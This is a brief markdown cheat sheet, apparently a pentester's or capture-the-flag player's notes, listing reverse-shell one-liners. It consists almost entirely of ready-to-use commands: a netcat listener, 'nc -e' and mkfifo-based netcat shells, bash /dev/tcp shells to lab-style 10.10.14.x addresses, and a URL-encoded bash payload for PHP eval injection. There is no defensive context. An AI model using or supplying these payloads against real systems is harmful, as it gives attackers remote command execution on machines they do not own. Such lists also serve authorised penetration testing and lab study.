 # Reverse Shell

## Netcat

### Netcat Listener

```bash
nc -lvnp 4444
```

### NC reverse shell

```bash
nc -e /bin/sh 10.10.14.16 4444
nc -e /bin/bash 10.10.14.16 5555
```

### from OpenBSD Netcat

```bash
mkfifo f; nc 10.10.14.16 4444 0<f | /bin/sh -i 2>&1 | tee f

mkfifo f; nc 10.10.14.16 5555 0<f | /bin/bash -i 2>&1 | tee f
```

## Target box

### With bash (seen with sqlmap)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'
```

### with shellshock

```bash
/bin/bash -i >& /dev/tcp/10.10.14.16/4444 0>&1
```

### through php eval

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/9001+0>%261'
```

